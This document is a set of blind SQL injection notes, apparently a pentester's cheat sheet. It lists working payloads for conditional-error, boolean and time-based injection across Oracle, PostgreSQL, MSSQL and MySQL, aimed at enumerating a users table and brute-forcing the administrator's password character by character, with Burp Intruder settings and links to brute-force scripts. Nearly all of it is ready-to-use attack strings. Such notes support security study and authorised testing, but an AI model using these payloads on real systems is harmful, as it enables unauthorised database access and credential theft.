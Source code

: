 # BlindSQL:
Truth must be "infered" generally with a sleep function, a 500 response, or DNS callout to webhooks/collaborator

Once we can get an injection, we need to confirm that the server is interpreting the injection as a valid query. This is done with a subquery.  
We initially send an empty query, if a 500 is returned, we may need to complete the query by selecting from a db. Ifreceive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.
`' ||(select '')||'`  
`' ||(select '' from dual)||'`  
We can then start to infer information, such as the existence of `users`  
`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
We weaponise this using the CASE statement, which will test a condition and if true/false will evaluate an expression.  
So, in the event that CASE comes out TRUE, we divide by 0 - causing an error.  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`  
Now we start to infer the existence of information (users, passwords, tables, etc)  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
`'||(SELECT CASE WHEN length(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'` 
Length of password  
`'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'. Then send: TrackingId='||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`


#### Testing booleans (for BSQLi)
Remember to try `AND` `OR` `HAVING`  
we can test the ability bruteforce/presence of users by selecting a char, limiting to 1 and then comparing, so the below would become `a=a`  
`b' OR (select 'a' from users limit 1)='a`  
Now we can take a step further and confirm we have a user called "Administrator"  
`b' OR (select 'a' from users where username='administrator')='a`  
The ball keeps on rolling, and we can begin the makings of bruteforce attack by testing the length of password  
`b' OR (select 'a' from users where username='administrator' and length(password)>1)='a;`  
Once we have the length of the password we can bruteforce with a python script or intruder.
For intruder we use cluster bomb, and use the grep option to flag responses we know differ in `FALSE` and `TRUE`  
`b' OR (select substring (password,§1§,1) from users where username='administrator')='§a§`  

#### sleep examples
postgresql  
  * `'||pg_sleep(10)--`  
  *  `||(SELECT+CASE+WHEN+(username='administrator'+and+SUBSTRING(username,+1,+1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+from+users)--`
mssql  
  * `if 1=1 waitfor delay'0:0:08'--`  
  * `' if(SUBSTRING(VERSION(),'1','0')=='{c}') waitfor delay'0:0:08'--`  
mysql
  * `1-SLEEP(15)`
  * `1-BENCHMARK(100000000, rand())`
  * `1-IF(MID(VERSION(),1,1) = '5', SLEEP(15), 0)`
sqlserver
 * `1; WAIT FOR DELAY '00:00:15'`
 * `1; IF SYSTEM_USER='sa' WAIT FOR DELAY '00:00:15'`
oracle #DOES NOT support stacked queries, if you come accross this you will to inject into PL/SQL code block
 * `BEGIN DBMS_LOCK.SLEEP(15); END;`

#### Example PoCs: 
[BlindSQLI Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/bruteforce_blindsqli.py)  
[BlindNOsqli Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/brute_mongoDB_nosqli.py)  
